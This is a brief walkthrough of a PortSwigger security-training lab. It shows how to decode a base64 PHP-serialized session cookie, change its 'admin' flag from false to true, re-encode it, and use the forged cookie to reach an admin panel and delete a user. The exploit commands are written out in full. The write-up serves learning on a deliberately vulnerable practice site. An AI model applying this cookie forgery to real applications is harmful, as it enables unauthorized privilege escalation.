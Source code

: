 # url
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects
# objective
The application is using a serialized object in its session cookies. Hack the cookie to gain admin access, then delete the `carlos` users account
# method of solve
Login using the provided credentials `wiener:peter`, then extract the cookie from the web browser, then decode it from base64
```
echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d' | base64 -d
```
We see from the ouput, that the `admin` setting is set to 0 (false). Let's try setting it to 1 (true).
```
echo -n 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}' | base64
```
* Take the output of the command, then replace the current cookie with the new one in the web browser
* We then see that we are able to access the admin panel. Access it and delete the `carlos` users account
